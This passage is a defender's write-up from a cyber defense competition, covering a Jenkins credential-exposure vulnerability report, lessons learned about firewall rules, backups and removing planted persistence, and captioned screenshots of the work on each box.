
3. Jenkins sign-in complete (assembly). The plinktern profile page on localhost:8080 after signing in.

We were unable to provide items 4 and 5.
Vulnerability disclosure #467337
We filed the Jenkins Pipeline: Multibranch finding on the Cyber Compliance Department's vulnerability disclosure form.
| Field | Value |
|---|---|
| Title | Unauthenticated Jenkins Plugin |
| Impact | High |
| Likelihood | Medium |
| CVSS score | 6.5 |
| Overall risk | High |
| Vector | AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N |
| MITRE ATT&CK technique | T1078 Valid Accounts |
| MITRE ATT&CK mitigation | M1032 Multi-factor Authentication |
| Affected host | 172.16.26.30 |
Impact as submitted. The vulnerability lets a low-privilege Jenkins user read System-scoped credentials, which can include SCM tokens, cloud keys and SSH keys.
Remediation as submitted. Update the plugin through the Jenkins plugin manager.
What I'd fix on resubmission.
- The title says unauthenticated, but the vector uses PR:L because the attack needs a low-privilege login. Rename it to something like "Jenkins Pipeline: Multibranch credential exposure".
- The form's field is labeled CVSS v4.0, but the vector is CVSS v3.1, which is what the 6.5 comes from.
- Remediation should also rotate every System-scoped credential, since they may already have been read, and restrict who can create or configure jobs.
Song list
A lighter inject asked for new music. We replied with seven picks:
| Artist | Song |
|---|---|
| Mili | Through Patches of Violet |
| Juice WRLD | Party by myself |
| Project Pat | Life we Live |
| Kanye | Flashing lights |
| Mitski | Washing machine |
| Modest Mouse | Black cadillacs |
| Kid Cudi | By design |
Results and lessons
- Scoring access beats IP restriction. The scoring engine shares IP ranges with Red Team, so restricting RDP by source would have failed my own check. Strong passwords did more than IP rules.
- Pre-existing rules matter. Windows Firewall allows traffic if any rule matches, so the built-in RDP rule made my restricted rule pointless. Default-deny does not remove old allow rules.
- One account, two passwords. jmoney had a Windows login and a separate Jenkins login. Both had to change, and the scoreboard had to match.
- Back up before you touch anything. A clean copy on an out-of-scope box is cheaper than a revert.
- Read the log, not the wrapper error. PowerShell said only that MariaDB could not start. The error log named the real cause, a stray argument on the service command.
- A 0 KB file is not a backup. Check the size and the first lines before copying a dump anywhere.
- Check the prompt before you paste. I ran Windows commands on blackbox and shell commands inside the MariaDB prompt, which cost time.
- Planted persistence hides among real names. The fake services sat next to ssh, apache2 and cron. File dates and what each one actually runs separated them.
- Stop the respawner first. A watchdog loop recreated the fake root accounts every five minutes, so deleting the accounts before stopping the loop would have changed nothing.
- Stage the restore file before any DROP. Dump the live database, confirm the backup is on the box and not empty, then drop.
- Elevate first, and match the tool to the code. Stop-Service failed from a PowerShell ISE that was not running as administrator, and Groovy written for the Jenkins Script Console cannot run in PowerShell.
- Redact before you share. My Jenkins reset scripts held a password hash and a plaintext password, so blur those in any screenshot you publish.
Appendix: screenshots
Screenshots are grouped by box.
Assembly (Jenkins)
Figure 1. Scoreboard detail for assembly at 11:15:58 AM. The jenkins check is DOWN with "Jenkins rejected the scoring account's sign-in" and a redirect to /loginError, while rdp is UP.

Figure 2. A fake user, jomoney, in the Jenkins dashboard next to the real jmoney and plinktern, being deleted through the "Delete Jenkins user 'jomoney'?" dialog.

Figure 3. The Jenkins service Stopped, with its launch command ending in extra text (BUT EVIL). Below it, the registry ImagePath fix and the service Running again.

Figure 4. Manage Jenkins warnings: advisories for Gradle Plugin 2.19.1252, Pipeline: Multibranch 841 and Pipeline: Groovy Libraries 805, plus the built-in node warning, the CSP notice and the offered upgrade to 2.580.1.

Figure 5. Scoreboard for teams 1 to 35 at 2:19:31 PM with Team 26 highlighted. Team 26 showed every scored service up.

Manifest (MariaDB)
Figure 6. mariadb-dump run as plinktern failing with Errcode 2 (No such file or directory) because C:\backup was missing.

Figure 7. C:\backup holding a plinkcom.sql that is 0 bytes, which is not a usable backup.

Figure 8. Start-Service on MariaDB refusing to start.

Figure 9. Port check: mysqld (PID 5172) listening on 0.0.0.0:3306 and ::, with no enabled inbound block rules.

Blackbox (backup box)
Figure 10. My failed first attempts on blackbox: mysqldump not found (the box runs Linux Mint 22, so the Windows-side steps did not belong there), a mistyped apt command, an scp to a mistyped address (172.16.t.5) and a missing ~/backups folder.


Figure 11. ~/bk with one folder per box (assembly, guidance, ignition, manifest) and plinkcom.sql in manifest/backup. The listing does not show the file size.

Guidance (Apache and persistence)
Figure 12. passwd failing with "Authentication token manipulation error" and the "the horse says: no" shell hook, right after login (banner time 18:26:39 UTC, 0 users logged in).

Figure 13. A message in the terminal telling me to ping a named user in #the-walls or have my box deleted, then the passwd checks: type -a, file, ls -l and dpkg -V were clean, and lsattr showed no immutable flags.

Figure 14. ports.conf and the top of apache2.conf, both stock Debian defaults.


Figure 15. ss and apache2ctl -M showing only port 80 listening and no ssl module, so nothing served TLS.

Figure 16. ls -la /usr/local/bin showing hidden scripts dated Oct 17 (the .kernguard.py at 15:52, the rest at 17:42), then cat of .sysmaint.sh creating four extra UID 0 accounts.

Figure 17. plinkcom.conf mid-edit, showing the stray closing Directory tag that would have failed configtest and the old dotfile pattern.
